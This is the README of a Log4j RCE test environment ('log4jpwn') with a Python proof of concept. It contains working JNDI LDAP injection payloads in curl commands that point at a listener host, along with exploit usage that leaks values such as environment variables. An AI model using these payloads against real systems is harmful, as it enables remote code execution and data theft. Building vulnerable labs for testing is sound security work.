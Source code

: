 # log4jpwn

log4j rce test environment

see: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

![](images/image.png)

using the included python poc

![](images/poc.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --exploit-port 5555`

